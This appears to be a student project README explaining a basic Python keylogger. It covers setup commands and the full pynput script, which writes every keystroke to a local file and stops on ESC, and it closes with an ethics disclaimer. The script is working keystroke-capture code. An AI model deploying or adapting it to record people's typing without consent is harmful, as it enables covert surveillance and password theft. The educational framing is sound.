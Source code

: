 Here is where you get started! Let's go!

Simple Keylogger in Python
Project Overview
Welcome to the Simple Keylogger in Python project! This project is part of my internship at Prodigy InfoTech. The goal of this task is to create a basic keylogger that captures and logs keystrokes. This project serves as a learning experience to understand how keyloggers work, their ethical implications, and the importance of cybersecurity.

Features
Keystroke Logging: Captures all keystrokes made by the user.
Special Key Handling: Identifies and logs special keys (e.g., Shift, Ctrl, etc.).
Logging to File: Saves the logged keystrokes to a specified text file.
Start/Stop Functionality: Listens for key press and release events to start and stop the keylogger.
Getting Started
Prerequisites
Ensure you have Python installed on your machine. You can download Python from here.

Installation
Clone the repository:

bash
Copy code
git clone https://github.com/Liyu-Desta/PRODIGY_CS_04.git
cd PRODIGY_CS_04
Install the required library:

bash
Copy code
pip install pynput
Usage
Navigate to the project directory:

bash
Copy code
cd PRODIGY_CS_04
Run the keylogger script:

bash
Copy code
python keylogger.py
Press keys on your keyboard to log them. The keystrokes will be saved to key_log.txt in the same directory.

To stop the keylogger, press the ESC key.

Code Explanation
The keylogger script is structured as follows:

python
Copy code
from pynput import keyboard

# Define the file where the keystrokes will be logged
log_file = "key_log.txt"

# Function to log the keystrokes
def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f'{key.char}')
            print(f'Logged key: {key.char}')  # Debugging print statement
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f'[{key}]')
            print(f'Logged special key: {key}')  # Debugging print statement

# Function to stop the keylogger (for demonstration, let's stop on ESC key)
def on_release(key):
    if key == keyboard.Key.esc:
        return False

# Start the listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
on_press: This function logs regular and special keystrokes to key_log.txt.
on_release: This function stops the keylogger when the ESC key is pressed.
keyboard.Listener: Starts the listener to monitor key press and release events.
Ethical Considerations
Important: This keylogger is for educational purposes only. Logging keystrokes without explicit permission is illegal and unethical. Always obtain consent from users before deploying any keylogging software. Use this knowledge responsibly to enhance cybersecurity.

License
This project is licensed under the MIT License. See the LICENSE file for details.

Acknowledgments
Prodigy InfoTech: For the opportunity to work on this project.
pynput Library: For providing an easy-to-use interface for keyboard and mouse input monitoring.
Contact
For any questions or inquiries, please contact me at tiragoliyu@gmail.com.
Happy Coding!
